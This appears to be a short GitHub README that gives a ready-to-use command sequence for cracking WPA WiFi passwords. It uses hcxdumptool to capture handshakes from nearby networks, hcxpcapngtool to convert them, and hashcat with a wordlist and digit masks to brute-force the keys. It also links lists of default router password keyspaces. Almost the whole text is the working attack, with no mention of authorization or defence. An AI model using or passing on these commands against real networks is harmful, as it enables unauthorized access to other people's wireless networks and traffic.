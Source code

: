 # WiFi-Cracking-with-HashCat
Cat: Security

Hashcat wifi cracking from David Bombal's video

https://www.youtube.com/watch?v=Usw0IlGbkC4&t=915s

// COMMANDS //
sudo systemctl stop NetworkManager.service
sudo systemctl stop wpa_supplicant.service

sudo hcxdumptool -i wlan0 -o dumpfile.pcapng --active_beacon --enable_status=1

sudo systemctl start wpa_supplicant.service
sudo systemctl start NetworkManager.service

hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng

hashcat -m 22000 hash.hc22000 wordlist.txt

Windows:
hashcat.exe -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d

hashcat.exe -m 22000 hash.hc22000 -a 3 --increment --increment-min 8 --increment-max 18 ?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d

Usefull repositories for routers with default passwords.

https://github.com/sheimo/Wifi-WPA-Keyspace-List

https://github.com/n0kovo/ssid-keyspace-table

